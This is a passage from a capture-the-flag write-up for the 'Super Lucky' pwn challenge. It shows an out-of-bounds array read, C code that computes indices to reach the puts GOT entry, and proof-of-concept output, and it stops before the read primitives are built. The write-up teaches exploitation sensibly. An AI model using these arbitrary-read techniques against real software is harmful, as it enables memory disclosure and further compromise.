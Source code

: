 https://ctftime.org/event/2238/

# Super Lucky ~ PWN

Just be super-duper lucky!

## Solution

### Abitary 4 Byte Read Primitive

We can see an out of bounds read on line 30 of super-lucky.c

```
for (int i = 0; i < 21; ++i) {
    unsigned long pick = 0;
    scanf("%lu", &pick);
    printf("Here's lucky number #%d: %d\n", i + 1, lucky_numbers[pick]);
}
```

We can supply numbers outside the range 0-776 in order to read 4 bytes at an abitary address as follows:

```
#include <stdio.h>

#define LUCKY_NUMBERS ( 0x00404040 )
#define PUTS_GOT ( 0x403f90 )

int main() {
    for ( ; ; ) {
        unsigned long pick = 0;
        scanf("%lu", &pick);
        printf("[%lx+%lx*4] => %lx\n",
            LUCKY_NUMBERS, pick, LUCKY_NUMBERS + (pick * 4));
    }

    return 0;
}
```

You can see in the following proof of concept that the resulting address matches that of `PUTS_GOT` defined above:

```
$ ./scanf_test 
-44
[404040+ffffffffffffffd4*4] => 403f90
-43
[404040+ffffffffffffffd5*4] => 403f94
```

This can be converted into a `read4` primitive, which can then be used to build a `read8` primitive, as follows:

